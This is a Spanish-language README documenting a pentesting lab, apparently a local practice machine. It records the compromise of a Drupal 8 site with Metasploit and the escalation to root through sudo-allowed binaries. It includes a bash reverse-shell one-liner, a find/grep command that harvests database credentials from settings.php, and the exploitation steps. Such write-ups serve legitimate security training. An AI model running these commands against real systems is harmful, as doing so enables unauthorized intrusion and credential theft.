









# Lab de Pentesting: Explotación y escalada de privilegios en máquina findyourstyle

Este repositorio documenta paso a paso cómo comprometer una máquina con Drupal 8 mediante un exploit conocido y escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, explotar una vulnerabilidad crítica en Drupal y, finalmente, escalar privilegios mediante análisis del sistema y abuso de binarios con privilegios.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `whatweb`
- `gobuster`
- `msfconsole`
- `netcat`

---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos

        nmap -sC -sV -p- 172.17.0.2 -oN scan.txt

Se identificó que el sitio web utiliza **Drupal 8** en el puerto 80.

---

### 4. Enumeración de directorios con Gobuster

    gobuster dir -u http://172.17.0.2/ -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt

Se descubrieron los directorios:

- `/user`
- `/admin`

---

### 5. Explotación con Metasploit

Iniciamos Metasploit y buscamos exploits para Drupal 8:

    msfconsole
    search drupal 8

Y encontramos algunos exploits,seleccionamos el exploit:

    use 0
    show options
    set RHOSTS 172.17.0.2
    run

Se logró obtener una **sesión meterpreter** activa.

---

### 6. Escalada a shell interactiva

Ejecutamos:

    shell

En la máquina atacante, se prepara el listener:

    sudo nc -lvnp 444

Y en la máquina víctima:

    bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"

---

### 7. Búsqueda de credenciales en settings.php

Visitamos HackTricks y usamos el siguiente comando:

    find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

Esto nos permitió localizar posibles credenciales de base de datos y usuarios del sistema.

---

### 8. Intento de login con usuario encontrado

Se prueba acceso con usuario `ballenita` pero no tiene permisos sudo. Se intenta un workaround (acceso sin TTY):

    script /dev/null -c "su ballenita"

Funciona correctamente.

---

### 9. Abuso de binarios con privilegios

Se verifica que `ballenita` puede ejecutar como root:

    sudo /bin/ls /root

Se encuentra el archivo `secretitomaximo.txt` y se lee su contenido con:

    sudo /bin/grep '' /root/secretitomaximo.txt

Se obtiene una posible contraseña de root.

---

### 10. Acceso root

Se prueba la contraseña obtenida y se confirma el acceso con privilegios de root.

---

## Resultados finales

- Acceso root conseguido mediante explotación de Drupal 8.
- Escalada de privilegios exitosa utilizando binarios permitidos y acceso a archivos sensibles.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
